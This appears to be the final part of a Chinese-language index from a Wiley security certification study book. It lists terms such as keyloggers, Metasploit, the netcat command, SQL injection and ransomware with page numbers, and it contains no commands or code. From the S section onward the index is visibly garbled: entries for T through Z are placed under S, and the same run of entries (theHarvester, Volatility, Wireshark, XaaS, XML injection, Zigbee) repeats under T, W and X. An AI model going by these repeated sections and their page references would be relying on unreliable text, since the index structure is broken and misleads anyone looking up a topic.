- 密钥长度, 231
- 密钥重用, 72, 73, 230, 232
- 密钥拉伸, 48, 214, 236
- 键盘记录器, 13, 193
- 密钥, 214
- 知识型认证, 242
- 已知环境测试, 7–8, 17, 24, 25, 31, 190, 195, 200, 201, 204

### L

- 横向移动, 15, 194
- 基于最少连接的负载均衡, 85, 239
- 最小权限, 161, 282
- 遗留系统, 33–34, 206, 291
- 法律保留, 280
- 照明，作为威慑手段, 74, 232
- 轻量级目录访问协议（LDAP）, 29, 56, 80, 96, 203, 219, 236, 246, 255
- 轻量级可扩展认证协议（LEAP）, 104, 237, 251
- Linux内核, 232
- Linux权限, 207
- 负载均衡, 102, 247, 250
- 锁, 69, 70, 162, 181, 229, 283, 296
- 日志聚合, 4, 187, 196
- `logger`实用程序, 273
- 日志记录, 199
- 逻辑炸弹, 2, 9, 10, 14, 16, 18, 19, 22, 27, 28, 186, 190, 191, 194, 195, 196, 199, 201, 202
- 环路保护, 123, 264
- 低功耗设备, 70–71, 229–230

### M

- 内存耗尽, 202
- 内存泄漏, 22, 199, 201, 202, 231
- Metasploit, 146, 276
- MFPs, 222
- 微控制器, 214
- 微服务架构, 222
- Microsoft Office, 277
- 误配置, 192
- 雾计算, 74, 232
- MITRE ATT&CK框架, 132, 267
- 移动应用管理（MAM）, 264
- 移动设备管理（MDM）, 82–83, 113, 116, 117, 124, 237, 258, 260, 265, 272, 275
- 运动激活, 71, 230
- 运动检测, 69, 228
- 动作识别, 58, 221
- 多因素认证, 5, 78, 188, 235, 262
- 多段病毒, 27, 201
- 多部分风险, 183, 297
- 多用途互联网邮件扩展（MIME）嗅探, 82, 237
- MX记录, 270
- 机器学习（ML）, 207, 210
- 宏病毒, 9, 17, 190, 195
- 恶意软件, 8, 26, 27, 186, 189, 190, 191, 194, 195, 196, 201, 212, 237–238, 282
- 管理式安全服务提供商（MSSPs）, 227
- 强制访问控制（MAC）, 14, 111, 114, 193, 233, 257, 259, 281, 294
- 强制休假政策, 161, 162, 283
- 浏览器中人攻击, 26, 201
- 防尾随门, 219
- 网络映射, 271
- 屏蔽, 74, 78, 232, 235
- MD5, 80, 236, 269
- 平均故障间隔时间（MTBF）, 168, 169, 171, 172, 288, 289, 290
- 平均修复时间（MTTR）, 168, 169, 171, 288, 289, 290
- 可测量启动, 259
- 媒体，刻录, 236
- 媒体访问控制（MAC）, 188
- `memdump`工具, 273
- 谅解备忘录（MOU）, 162, 176, 179, 183, 283–284, 292, 294, 297

### N

- 命名约定, 224
- 国家标准与技术研究院（NIST）, 180–181, 295
- 国家安全局（NSA）, 150, 174, 278, 291, 297
- 国家行为体, 19, 196, 197
- 自然灾害, 76, 233
- 近场通信（NFC）, 23, 103, 199, 251
- Nessus, 134–135, 146, 269, 276
- `net user`命令, 262
- `netcat`命令, 137, 270
- NetFlow, 134, 269, 271
- `netstat`命令, 133, 153, 156, 268, 280, 282
- 网络地址转换（NAT）, 102, 118, 250, 261

### P

- 密码

    - 老化, 263

    - 复杂度, 258

    - 存储, 142, 208, 274
- 补丁管理, 95, 174, 246, 281, 291
- `pathping`, 276
- 支付卡行业数据安全标准 (PCI-DSS), 162, 171, 175, 283, 290, 292
- PBKDF2算法, 236
- 渗透测试, 5, 28, 37, 68, 188, 191, 196, 199, 202, 205, 209, 227-228
- 胡椒, 3, 186
- 完美前向保密 (PFS), 49, 214
- 权限

    - 审计, 257

    - 设置, 35, 207
- 权限蔓延, 3, 187
- 个人识别码 (PIN), 241
- 个人信息交换 (PFX), 87-88, 240-241
- 个人身份信息 (PII), 235, 291
- 人员凭证策略, 293
- `-p`标志, 267
- 域名劫持攻击, 19, 197
- 网络钓鱼, 2, 6, 9, 13, 23, 25, 27, 28, 36, 186, 189, 191, 193, 199, 200, 202, 208, 217
- 图片密码, 47, 213
- 饼图, 31, 205
- `ping`命令, 271
- 枢轴, 8, 190
- 明文密码攻击, 10, 191
- 平台即服务 (PaaS), 54, 58, 64, 73, 78, 218, 221, 225, 232, 235
- 行动手册, 142, 154, 274, 276, 281
- 点对多点拓扑, 248
- 点对点拓扑, 248
- 策略, 283, 285, 289, 294
- 多态病毒, 198
- POP3, 85, 239
- 端口扫描, 211, 270
- 端口安全, 83, 238, 248
- Postgres 服务器, 194
- 潜在有害程序 (PUPs), 14, 21, 29, 193, 198, 203
- 配电单元 (PDU), 75, 226, 233, 247
- `PowerShell`, 23, 40, 199, 211, 222
- 预测分析, 4, 187, 210
- 前置, 20, 33, 37, 197, 206, 209
- 预生产环境, 216
- 预共享密钥 (PSK), 100, 244-245, 248
- 伪装, 16, 33, 195, 206
- 预防性控制, 166, 167, 286, 287
- 质因数分解算法, 50, 215
- 隐私增强邮件 (PEM) 文件, 126, 240-241, 266
- 隐私通知, 184, 296, 297
- 私有云, 65, 78, 225, 235
- 私钥, 48, 49, 214, 247, 280
- 权限蔓延, 80, 236
- 权限提升, 13, 15, 20, 34, 193, 194, 197, 206-207
- 权限扫描, 195
- 特权访问管理 (PAM), 265
- 生产服务器, 51, 216
- 专有数据, 285, 293
- 专有情报, 32, 205
- 受保护的电缆分配, 77, 234
- 受保护的可扩展身份验证协议 (PEAP), 94, 237, 245
- 协议, 212
- 来源, 151, 275, 279
- 近距离读卡器, 75, 233
- PRTG, 274
- 假名化, 171-172, 290
- 公有云, 64, 65, 225
- 公钥基础设施 (PKI), 256, 264
- 公钥, 48, 49, 214, 247
- 紫队, 4-5, 22, 30, 188, 199, 204
- 推送通知, 82-83, 237
- Python, 17, 195

### Q

- 定性风险评估, 162, 165, 174-175, 283, 285, 291
- 质量保证 (QA), 216

### R

- 定量风险评估, 162, 165, 168, 174–175, 283, 285, 288, 291
- 量子计算, 72, 231
- 量子密码学, 215
- 量子加密, 50, 215
- 隔离流程, 153, 272, 280
- 量子比特, 215
- 快速格式化, 148, 277
- 竞争条件, 14, 23, 194, 199
- 射频识别 (RFID), 11, 23, 27, 75, 96, 192, 199, 202, 233, 246
- RAID, 55, 56, 71, 218, 219, 230
- 彩虹表, 9, 12, 21, 191, 193, 198, 203, 298
- 勒索软件, 22, 199
- Raspberry Pi, 48, 214
- 速率限制, 246
- 重启, 276
- 渗透测试的侦察阶段, 37, 209
- 恢复, 131, 267
- 恢复点目标 (RPO), 169, 289
- 恢复时间目标 (RTO), 166, 177, 287, 292
- Red Hat, 270
- 红队, 4–5, 22, 24, 30, 188, 199, 200, 204
- 重构, 8, 36, 190, 208
- 注册机构 (RA), 239
- 远程访问, 246
- 远程认证拨号用户服务 (RADIUS), 56, 100, 219, 231, 246, 248


## S

- `scanless` 工具, 136, 270

- `scrypt` 算法, 236

- `SHA1` 算法, 80, 236, 269

- `sFlow`, 269, 271

- `SFTP`, 195

- `SPIM`, 3, 187

- `SQL` 注入, 2, 3, 10, 20, 22, 51, 57, 186, 189, 191, 197, 198, 216, 220, 245, 280

- `SRTP`, 238

- `SSH` 文件传输协议 (`SFTP`), 252

- `strings` 命令, 136, 270

- `syslog`, 38, 152, 156, 209, 279, 282

- `TCPDump`, 267

- `Telnet`, 16, 43, 195, 206

- `theHarvester`, 132, 267

- `Volatility` 框架, 279

- `Wireshark`, 136, 137, 138, 152, 270, 271, 278, 279

- `XaaS`, 68, 228

- `XML` 注入, 209

- `Zigbee`, 61, 223

## T

- `tail` 命令, 269

- `TAXII`, 23, 199

- `tcpdump`, 267

- `tcpreplay` 工具, 279

- `TACACS+`, 116, 260

- `TSR`, 220

- `theHarvester`, 132, 267

- `Volatility` 框架, 279

- `Wireshark`, 136, 137, 138, 152, 270, 271, 278, 279

- `XaaS`, 68, 228

- `XML` 注入, 209

- `Zigbee`, 61, 223

## W

- `Wireshark`, 136, 137, 138, 152, 270, 271, 278, 279

- `XaaS`, 68, 228

- `XML` 注入, 209

- `Zigbee`, 61, 223

## X

- `XaaS`, 68, 228

- `XML` 注入, 209

## Z

- `Zigbee`, 61, 223

## 威利最终用户许可协议

请访问 `www.wiley.com/go/eula` 以获取 Wiley 电子书 EULA。
